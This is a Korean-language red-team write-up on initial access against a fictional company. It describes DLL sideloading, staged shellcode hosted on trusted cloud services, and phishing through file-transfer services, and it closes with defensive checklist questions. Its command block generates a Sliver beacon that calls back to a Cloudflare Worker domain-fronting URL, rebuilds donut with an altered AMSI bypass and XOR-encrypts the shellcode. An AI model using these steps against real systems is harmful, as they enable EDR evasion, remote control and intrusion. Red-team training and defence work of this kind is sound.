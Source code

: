 # 2. 초기 침투

이번 섹션에서는 다음의 주제들을 다룬다:

* DLL Sideloading
* 페이로드 무기화 및 전송
* 파일 전송 서비스를 이용한 피싱 이메일 전송

<figure><img src="../.gitbook/assets/AttackPath0-Phishing.drawio.png" alt=""><figcaption></figcaption></figure>

이번 섹션에서는 라쿤 테크의 사내망에 침투하기 위한 초기 침투용 페이로드를 만드는 방법과 전송하는 방법에 대해서 다룬다.

초기침투에는 다양한 방법이 있다.

* 피싱 - 페이로드
* 피싱 - AitM
* 피싱 - AAD/EntraID (Device Code, QR, Illicit Consent Grant, ...)
* OSINT/다크웹 - 계정 정보/API 키 탈취 후 VPN, 원격 접속 (VDI/RMM), 클라우드 해킹, 등
* 물리 침투 이후 임플랜트 설치
* 침해가정 시나리오
* 외부망 해킹 - 제로데이, CVE, n-day 익스플로잇, 웹/모바일 해킹, 등

레드팀.com에 이미 정리해둔 방법들도 있지만 ([1](https://www.xn--hy1b43d247a.com/infrastructure/smtp-toolkit-relay-esp), [2](https://www.xn--hy1b43d247a.com/initial-access/aitm), [3](https://www.xn--hy1b43d247a.com/initial-access/html-smuggling)), 세팅하는데 시간이 너무 오래 걸리니 가장 간단한 파일 전송 서비스들을 이용한 페이로드 피싱 방법을 사용한다. 피싱을 하기 전, 페이로드부터 간단하게 제작한다.

## 페이로드

다양한 페이로드를 사용할 수 있지만, 이번 프로젝트에서는 여전히 실제 공격자들이 많이 사용하고 있는 [DLL 사이드로딩](https://www.xn--hy1b43d247a.com/persistence/dll-sideloading)을 사용한다. 사이드로딩 형식은 암호화된 압축 파일 안에 일반 DLL + 악성 DLL (로더) + 암호화된 쉘코드 + 정상 EXE 파일을 사용한다.

정상 EXE 파일과 악성 DLL 파일의 코드를 공유할 수는 없지만, 악용을 막기 위해 바이러스토탈에 올린 결과를 공개한다. 궁금하신 분들은 VT API와 VT 해시를 이용해 다운 받은 뒤, 리버싱 하면 된다. 리버싱 결과를 레드라쿤에 공유해주시면 감사하겠다.

<figure><img src="../.gitbook/assets/0-version-payload-vt.png" alt=""><figcaption></figcaption></figure>

[https://www.virustotal.com/gui/file/2b7ec56f643de87ba815836d94934d89faba08883a2d01caf7dc83cb276a97aa](https://www.virustotal.com/gui/file/2b7ec56f643de87ba815836d94934d89faba08883a2d01caf7dc83cb276a97aa)

동적 분석 결과가 없는 바이러스토탈 결과에 큰 의미는 없다. 하지만 간단하게 만든 것 치고는 정적 분석에서 Big 3 EDR (CrowdStrike, MDE, SentinelOne)에 걸리지 않았다는 것으로 만족한다. Module Stomping, Callstack spoofing, PoolParty등의 고급 기법이 없어도 정적 분석 결과가 괜찮게 나왔다. DLL 사이드로딩이야 잘 알려진 기법이고 실제 EDR 솔루션들을 상대로 사용하면 잡힐 확률이 높겠지만, 적어도 이번 프로젝트에서 상대할 full 디펜더나 AV 백신 등을 우회하는데에는 큰 어려움이 없을 것이다.

페이로드의 정확한 작동 방법은 리버싱을 할 독자분들께 맡긴다. 아래는 페이로드에 대한 간단한 설명이다.

* 대다수의 대한민국 국민, 그리고 기업 윈도우 컴퓨터에 설치되어 있는 원드라이브(Onedrive) 업데이터 파일 사용
* HellsHall을 이용한 indirect syscall
* LOTS 웹사이트를 이용한 Staged 쉘코드
* 대상 시스템에 이미 존재하는 프로세스에 대한 원격 프로세스 인젝션
* Mutex를 이용해 DLL 사이드로딩이 여러번 실행되지 않도록 조치
* 코드 서명을 사용해 합법적인 PE 파일처럼 보이게 조치

로더가 준비 되었다면 로더가 DLL 사이드로딩 시 불러올 쉘코드를 준비한다. 슬리버를 이용해 쉘코드 생성 뒤, pyHellShell을 이용해 xor 암호화를 한다. 그 뒤, LOTS를 이용하기 위해 잘 알려진 서비스들 - 구글 드라이브, 깃허브, AWS S3 버킷, Azure Data blob, 네이버 클라우드 등 - 에다 업로드 해놓는다.

## 쉘코드

* 쉘코드 생성 시 도메인 프론팅을 사용하기 위해 콜백 주소는 클라우드플레어의 워커 URL인 `https://tiny-bar-f413.fonts-cdn.workers.dev` 를 사용한다.
* 2024년 11월 기준 마이크로소프트사에서 드디어 AMSI 우회 페이로드들에 대한 본격적인 탐지를 시작했다. 특히 donut 을 사용해 만들어진 쉘코드안에 들어가는 AMSI\_BYPASS\_B 종류는 바로바로 잡아내고 있다.
* 때문에 슬리버에서 바로 쉘코드를 생성하지 말고 EXE를 먼저 만들어낸 뒤, AMSI 우회 페이로드를 변경한 donut을 사용해 슬리버 EXE를 쉘코드 형태로 변환한다.

```
# 1. 슬리버로 EXE 파일 생성
s> generate beacon -S 5 -J 1 -f exe -s /tmp/sliver.exe -b https://tiny-bar-f413.fonts-cdn.workers.dev

# 2. AMSI 우회 페이로드를 변경한 도넛 사용
git clone <https://github.com/TheWover/donut.git>
cd ./donut
sed -i 's/BYPASS_AMSI_A/BYPASS_AMSI_C/g' Makefile.mingw
make

./donut -i /tmp/sliver.exe -o /tmp/robots.bin

# 3. 쉘코드 XOR 암호화
python3 pyhellshell.py -i /tmp/robots.bin -e xor -k microsoft -f raw -out /tmp/robots.txt

[i] Input file          : /tmp/sliver.bin
[i] Encryption method   : xor
[i] Obfuscation method  : None
[i] Output format       : raw
[i] Output file         : /tmp/robots.txt

key: b'microsoft'
key length: 9
[+] Saved to file: /tmp/robots.txt

#define PayloadSize 17147202

```

이후 LOTS 사용을 위해 깃허브에 쉘코드를 업로드한다. 이후 위에서 만든 DLL 사이드로드 로더가 해당 깃허브 리포에서 암호화된 쉘코드를 다운받아 실행할 것이다.

<figure><img src="../.gitbook/assets/0-droptest-robots.txt.png" alt=""><figcaption></figcaption></figure>

## 파일 전송 서비스

페이로드가 준비 되었다면 무료 파일 전송 서비스인 TransferNow를 이용해 해당 페이로드를 전송한다. 파일 전송 서비스들은 예전부터 존재했지만, 요새 특히 SaaS 형태로 컴백 하고 있는 듯 하다. TransferNow, Send-Anywhere, Wetransfer, Hightail 등, 다양한 서비스들이 회원 가입 없이도 아무나 이메일로 파일을 전송할 수 있게 해주고 있다.

<figure><img src="../.gitbook/assets/setup5-1-transfernow-email.png" alt=""><figcaption></figcaption></figure>

파일 전송 서비스의 가장 큰 장점 중 하나는 바로 높은 신뢰도다. 워낙 많이 사용되는 서비스다 보니 웬만해서는 이메일 게이트웨이를 뚫고 대상의 받은 이메일함에 도착할 확률이 높다. 공격자의 입장에서는 귀찮은 도메인 신뢰도, 메일 서버 관리, SPF, DKIM, DMARC 등을 신경쓰지 않아도 된다.

예를 들어 구글(개인), 구글 워크스페이스(기업), 네이버(개인) 등의 기본적인 이메일 보안을 갖고 있는 메일함을 상대로는 아무런 경고 없이 받은 메일함에 도착하는 것을 볼 수 있다.

<figure><img src="../.gitbook/assets/setup4-simple-phishing-transfernow.png" alt=""><figcaption></figcaption></figure>

## 우리 회사는

* DLL-Sideloading이 일어날 때, Self-Injection, Reflective DLL Injection, Remote Process Injection, 바이너리 실행 등, 엔드포인트에서 일어나는 악성 행위들을 탐지하고 방지할 수 있는 EDR 솔루션들이 설치되어 있는가?
* 엔드포인트에서 발생하는 로그를 모아 관리하고 모니터링할 수 있는 SIEM이 있는가?
* TransferNow, Send-Anywhere, Wetransfer 등의 다양한 파일 전송 서비스들의 도메인 및 이메일 양식을 파악한 뒤 차단하고 있는가?
* 이메일 게이트웨이는 수상한 파일 첨부를 파악하고 차단하고 있는가?



